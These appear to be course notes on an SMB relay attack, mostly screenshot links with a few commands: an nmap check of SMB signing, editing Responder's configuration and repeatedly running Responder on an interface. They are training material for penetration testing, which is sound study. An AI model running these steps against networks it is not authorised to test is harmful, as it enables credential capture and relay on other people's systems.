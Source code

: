 ## SMB Relay Attacks

```bash
nmap --script=smb2-security-mode.nse -445 <target IP address> -Pn

```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-2.png">

```bash
 sudo nano targets.txt 
```
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-3.png">

```bash
sudo mousepad /etc/responder/Responder.conf
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-4.png">



<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-5.png">

```bash
sudo responder -I eth0 
```
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-6.png">

```bash
sudo responder -I eth0 
```
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-7.png">

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-8.png">

```bash
sudo responder -I eth0 
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-9.png">

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-10.png">

```bash
sudo responder -I eth0 
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-11.png">

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-12.png">


<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/smb-relay-13.png">







